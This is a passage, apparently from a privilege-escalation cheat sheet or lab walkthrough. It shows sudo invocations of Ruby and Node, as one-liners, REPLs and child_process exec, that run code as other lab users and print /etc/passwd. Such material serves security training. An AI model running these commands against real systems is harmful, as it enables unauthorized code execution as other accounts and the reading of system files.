 Run a Ruby REPL"

```bash
sudo -u target9 /usr/bin/ruby -e 'require "irb" ; IRB.start(__FILE__)'
```
```
File.open("/etc/passwd", "r") do |f|
  f.each_line do |line|
    puts line
  end
end
```

__Node JS__

Run Javascript code in the context of the target user

```bash
sudo -u target10 /usr/local/bin/node -e 'var exec = require("child_process").exec;
exec("cat /etc/passwd", function (error, stdOut, stdErr) {
console.log(stdOut);
});'
```

Start a Node REPL:

```bash
sudo -u target10 /usr/local/bin/node
```
```
var fs = require('fs');
fs.readFile('/etc/passwd', 'utf8', function(e, d) {
  console.log(d);
});
```